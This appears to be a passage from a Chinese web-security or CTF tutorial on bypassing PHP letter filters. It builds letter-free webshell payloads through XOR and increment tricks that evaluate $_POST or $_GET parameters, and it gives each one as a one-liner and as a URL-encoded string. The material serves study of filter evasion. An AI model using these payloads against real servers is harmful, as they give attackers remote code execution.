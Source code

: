 这里提交的 GET 参数实际上是经过 URL 编码的，这样即使编码串中包含字母，也是在表示一个字节（例如 %8C 表示 0x8C），而不是直接的字母字符 当 PHP 接收到参数时，会先进行 URL 解码，恢复成原始的字节序列（例如 0x8C, 0x86, …），这时这些字节不属于常规的 ASCII 字母范围 因此，严格过滤字母的正则判断是在对解码后的数据检查，结果不会因为 URL 编码后的 A–F 而被触发过滤
## 12.2 异或绕过：
一个字符转换为ascll码后对应的数字转为2进制表示，按位异或，得到新的字符；异或的规则为相同为0，不同为1
比如下面的这个例子，不用字母构建出命令：
```php
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
$$__[_]($$__[__]); // $_POST[_]($_POST[__]);
```
写到一行后进行url编码：
```php
$__=("#"^"|");$__.=("."^"~");$__.=("/"^"`");$__.=("|"^"/");$__.=("{"^"/");$$__[_]($$__[__]);

%24__%3D(%22%23%22%5E%22%7C%22)%3B%24__.%3D(%22.%22%5E%22~%22)%3B%24__.%3D(%22%2F%22%5E%22%60%22)%3B%24__.%3D(%22%7C%22%5E%22%2F%22)%3B%24__.%3D(%22%7B%22%5E%22%2F%22)%3B%24%24__%5B_%5D(%24%24__%5B__%5D)%3B
```

## 12.3 递增递减运算符绕过

当我们通过某种方法可以得到一个字符时，我们就可以通过自增来获取其他字符

比如下面的这个过程由一个空的列表获取字符，并通过自加来获得其他的字符：

```php
<?php
$_=[].'';//Array
$_=$_[''=='$'];//A
$_++;//B
$_++;//C
$_++;//D
$_++;//E
$__=$_;//E
$_++;//F
$_++;//G
$___=$_;//G
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;//T
$_=$___.$__.$_;//GET
//var_dump($_);
$_='_'.$_;//_GET
var_dump($$_[_]($$_[__]));
//$_GET[_]($_GET[__])
```

同样将其写为一行，并进行url编码：
```php
$_=[].'';$_=$_[''=='$'];$_++;$_++;$_++;$_++;$__=$_;$_++;$_++;$___=$_;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_=$___.$__.$_;$_='_'.$_;$$_[_]($$_[__]);

%24_%3D%5B%5D.''%3B%24_%3D%24_%5B''%3D%3D'%24'%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D%24___.%24__.%24_%3B%24_%3D'_'.%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
```
